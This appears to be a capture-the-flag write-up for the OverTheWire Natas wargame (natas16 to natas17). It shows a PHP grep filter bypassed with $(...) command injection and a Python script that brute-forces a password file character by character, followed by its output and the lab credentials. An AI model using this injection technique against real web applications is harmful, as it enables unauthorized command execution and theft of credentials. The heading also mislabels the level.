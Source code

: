 # OverTheWire Wargames

## Natas Level 15 --> Level 16

**Username:** natas16

**Password:** WaIHEacj63wnNIBROHeqi3p9t0m5nhmh

**URL:**      http://natas16.natas.labs.overthewire.org

 
### Solution
* Click view sourcecode there you can see the filter used in the key-value, so we need to inject an OS command that bypasses this filter to get the password.
```
if($key != "") {
    if(preg_match('/[;|&`\'"]/',$key)) {
        print "Input contains an illegal character!";
    } else {
        passthru("grep -i \"$key\" dictionary.txt");
    }
}
```
* We can inject command inside double quotes with ***$(command)***, try to submit this
```
$(echo a)
```
* Now grep any word in the list to test like (Africans), and submit this 
```
Africans$(echo a)
```
* This (according to  Linux command) will result in 'Africansa' which isn't in the dictionary.txt so nothing will retrieve.
* According to the above idea we can submit 'Africans$(grep {char} /etc/natas_webpass/natas17)' which has two condition according to the char
> first -> return 'Africans(pass from natas17)' if this char in the file (return nothing in HTML)
> 
> second -> return 'Africans' if this char doesn't exist in the file (return 'Africans' in HTML as this word exist in dictionary.txt)
> 
> **We add ^ before the char to make sure that this character is the 1st character in the word**
* So we can perform brute-force to retrieve the password using boolean based injection using this python script:
```py
import requests
import string

chars = string.ascii_uppercase + string.ascii_lowercase + '0123456789'
base_url = 'http://natas16.natas.labs.overthewire.org/?needle='
password = ''

for i in range(32):
    cnt = 0
    while True:
        payload = password + chars[cnt]
        r = requests.get(base_url+f'Africans$(grep ^{payload} /etc/natas_webpass/natas17)', auth=('natas16', 'WaIHEacj63wnNIBROHeqi3p9t0m5nhmh'))
        cnt += 1

        if not 'Africans' in r.text:
            password = payload
            print(password)
            break
```
> Execution Result
```py
8
8P
8Ps
8Ps3
8Ps3H
8Ps3H0
8Ps3H0G
8Ps3H0GW
8Ps3H0GWb
8Ps3H0GWbn
8Ps3H0GWbn5
8Ps3H0GWbn5r
8Ps3H0GWbn5rd
8Ps3H0GWbn5rd9
8Ps3H0GWbn5rd9S
8Ps3H0GWbn5rd9S7
8Ps3H0GWbn5rd9S7G
8Ps3H0GWbn5rd9S7Gm
8Ps3H0GWbn5rd9S7GmA
8Ps3H0GWbn5rd9S7GmAd
8Ps3H0GWbn5rd9S7GmAdg
8Ps3H0GWbn5rd9S7GmAdgQ
8Ps3H0GWbn5rd9S7GmAdgQN
8Ps3H0GWbn5rd9S7GmAdgQNd
8Ps3H0GWbn5rd9S7GmAdgQNdk
8Ps3H0GWbn5rd9S7GmAdgQNdkh
8Ps3H0GWbn5rd9S7GmAdgQNdkhP
8Ps3H0GWbn5rd9S7GmAdgQNdkhPk
8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq
8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq9
8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq9c
8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq9cw
```
** You got the password!!

### Natas17 Password
> 8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq9cw
